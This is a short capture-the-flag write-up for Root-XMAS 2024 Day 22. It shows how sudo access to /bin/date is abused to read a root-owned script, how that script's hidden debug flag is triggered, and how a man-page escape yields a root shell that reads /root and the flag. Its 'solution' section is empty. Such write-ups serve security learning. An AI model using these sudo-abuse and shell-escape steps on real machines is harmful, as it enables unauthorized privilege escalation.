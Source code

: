 ```yaml
---
title: Root-XMAS 2024  Day 22 - The date is near
feed: show
permalink: /RootXMAS_2024_22
date: 22-12-2024
summary: hear my arguments
---
```



### summary


### recon

[gtfobins date page](https://gtfobins.github.io/gtfobins/date/)

option parsing: multiple single chars options are parsed with a single '-'

bruteforce
```bash
for i in {1..128}; do sudo /bin/date -$(printf "\\$(printf %03o "$i")")f /usr/bin/dev.sh; echo $i; done
```

option u:

```bash
sudo /bin/date -uf /usr/bin/dev.sh
	/bin/date: invalid date '#!/bin/bash'
	Tue Dec 24 00:00:00 UTC 2024
	/bin/date: invalid date '# Check if the --debugmyscript argument is present'
	/bin/date: invalid date 'if [[ "$1" != "--debugmyscript" ]]; then'
	/bin/date: invalid date '    exit 0  # Exit silently if the --debugmyscript argument is not provided'
	...
```

```bash
sudo /usr/bin/dev.sh --debugmyscript
	Usage: /usr/bin/dev.sh [options]
	
	Options:
	  -l            List all running processes.
	  -d            Show available disk space.
	  -m            Show the manual for the printf command.
	  -h            Show this help message.

```

[gtfobins man page](https://gtfobins.github.io/gtfobins/man/)

```bash
!!/bin/bash

	ls /root
		flag-1a0a6...1.txt
	cat /root/*.txt
		RM{S4NTA_IS_N0T_4DMIN_SYS}
```
### solution
